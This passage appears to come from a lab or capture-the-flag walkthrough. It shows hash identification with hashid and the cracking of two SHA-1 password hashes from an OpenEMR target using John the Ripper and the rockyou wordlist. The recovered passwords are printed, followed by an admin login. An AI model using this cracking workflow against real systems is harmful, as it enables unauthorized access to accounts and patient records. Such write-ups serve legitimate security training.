Before cracking we need to identify the password hash, the tool detected a possible SHA-1.

```bash
root@kali:~$ echo '3863efef9ee2bfbc51ecdca359c6302bed1389e8' | hashid
Analyzing '3863efef9ee2bfbc51ecdca359c6302bed1389e8'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160)
```

I copied the hashes into a file and prepared the rockyou wordlist for use it with john the ripper.

```bash
root@kali:~$ echo -e "3863efef9ee2bfbc51ecdca359c6302bed1389e8\nab24aed5a7c4ad45615cd7e0da816eea39e4895d" > openemr.hash

root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
```

John discovered the password for the two hashes.

```bash
root@kali:~$ john openemr.hash -format=RAW-SHA1 -wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
medical          (?)
ackbar           (?)
```


### Login to OpenEMR

I logged in to OpenEMR as the admin user.

![](/assets/images/healthcare/screenshot-5.png)
